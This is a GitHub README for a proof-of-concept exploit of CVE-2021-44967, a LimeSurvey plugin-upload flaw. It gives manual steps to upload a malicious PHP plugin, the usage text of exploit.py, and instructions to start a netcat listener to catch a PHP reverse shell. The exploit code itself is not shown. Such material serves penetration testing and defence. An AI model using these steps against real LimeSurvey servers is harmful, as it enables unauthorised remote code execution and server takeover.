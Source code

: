 # LimSurvey-RCE

This repository contains a POC (Proof of Concept) of the CVE-2021-44967 vulnerability, which affects to LimeSurvey 5.2 and higher versions. It allows an authenticated user to upload its own malicious plugins, leading to a RCE (Remote Code Execution) through PHP code execution. This exploit uses a PHP reverse shell which is triggered once the malicious plugin is uploaded.

# Explanation

This vulnerability consists on creating a XML config file, a PHP file and then compressing them into a ZIP file. Once you have uploaded, installed and activated the plugin, the PHP code should be accessible on the web. It can be exploited manually following this steps:

1. Create a ZIP containing the PHP file and the config file
2. Login into LimeSurvey
3. Go to Configuration -> Plugins -> Upload & Install
4. Upload your ZIP file
5. Install it
6. Finally, activate your plugin
7. Then your PHP code should be accessible under /upload/plugins/<plugin_name>/<php_file>

# Usage

```
usage: exploit.py [-h] --url URL --user USER --password PASSWORD --lhost LHOST --lport LPORT [--verbose]

LimeSurvey - RCE

options:
  -h, --help           show this help message and exit
  --url URL            URL of the LimeSurvey web root
  --user USER          username to log in
  --password PASSWORD  password of the username
  --lhost LHOST        local host to receive the reverse shell
  --lport LPORT        local port to receive the reverse shell
  --verbose            enable verbose
```

Start a netcat listener and then execute the exploit like this:

```
python3 --url <URL> --user <username> --password <password> --lhost <local host> --lport <local port>
```

# Demo

<img src="demo.png">

# References

```
https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
https://www.exploit-db.com/exploits/50573
https://github.com/p0dalirius/LimeSurvey-webshell-plugin
https://ine.com/blog/cve-2021-44967-limesurvey-rce
https://pentest-tools.com/vulnerabilities-exploits/limesurvey-524-rce-vulnerability_13029
```

# License

This project is under [MIT](https://github.com/D3Ext/LimeSurvey-RCE/blob/main/LICENSE) license

Copyright © 2025, *D3Ext*

